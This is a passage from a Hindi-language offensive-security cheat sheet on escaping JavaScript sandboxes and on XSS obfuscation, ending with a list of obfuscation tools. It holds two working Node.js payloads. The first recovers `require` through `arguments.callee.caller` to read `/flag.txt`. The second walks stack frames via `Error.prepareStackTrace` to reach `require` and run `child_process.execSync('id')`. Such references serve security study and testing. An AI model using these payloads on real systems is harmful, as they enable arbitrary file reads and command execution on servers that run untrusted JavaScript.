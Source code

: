 {% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

पिछले उदाहरण के समान, **त्रुटि हैंडलर** का उपयोग करके **मॉड्यूल** के **wrapper** तक पहुंचना और **`require`** फ़ंक्शन प्राप्त करना संभव है:
```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
Error.captureStackTrace(this)
this.stack
} finally {
Error.prepareStackTrace = oldStackTrace
}
}
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log('='.repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req('child_process').execSync('id').toString())
}
}
}
trigger()
```
### Obfuscation & Advanced Bypass

* **एक पृष्ठ में विभिन्न ओबफस्केशन्स:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* अधिक जटिल JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
* [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
```javascript
//Katana
```